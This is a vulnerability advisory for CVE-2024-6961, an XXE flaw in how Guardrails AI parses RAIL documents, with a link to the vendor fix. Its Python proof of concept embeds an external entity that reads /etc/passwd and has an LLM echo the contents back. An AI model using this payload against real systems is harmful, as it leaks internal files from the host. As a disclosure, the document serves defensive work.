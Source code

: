 ```yaml
---
description: CVE-2024-6961, MEDIUM, Guardrails RAIL XXE
title: Guardrails RAIL XXE
date_published: "2024-07-21"
last_updated: "2024-07-21"
xray_id: JFSA-2024-001035519
vul_id: CVE-2024-6961
cvss: 5.9
severity: medium
discovered_by: Natan Nehorai
type: vulnerability

---
```


## Summary

XXE in Guardrails AI when consuming RAIL documents

## Component

guardrails-ai

## Affected versions

(,0.5.0)

## Description

RAIL documents are an XML-based format invented by Guardrails AI to enforce formatting checks on LLM outputs. Guardrails users that consume RAIL documents from external sources are vulnerable to XXE, which may cause leakage of internal file data via the SYSTEM entity.



## PoC

```python
import anthropic
import guardrails as gd
from litellm import litellm
import os 

os.environ["ANTHROPIC_API_KEY"] = "put_here_your_secret_api_key"
API_KEY = os.environ["ANTHROPIC_API_KEY"]

## Assuming this RAIL document comes from an attacker
rail_str = """
<!--?xml version="0.1" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<rail version="0.1">

<output type="string" >
</output>

<prompt>
just write back what appears down here:
&xxe;
</prompt>
</rail>
"""

## Call the vulnerable API
guard = gd.Guard.from_rail_string(rail_str)

llm_output_unfiltered, validated_output, *rest = guard(
  llm_api=litellm.completion,
  model="claude-3-opus-20240229"
)

## The validated_output will contain the contents of /etc/passwd
print(validated_output)

```



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Vendor fix](https://github.com/guardrails-ai/guardrails/pull/922)

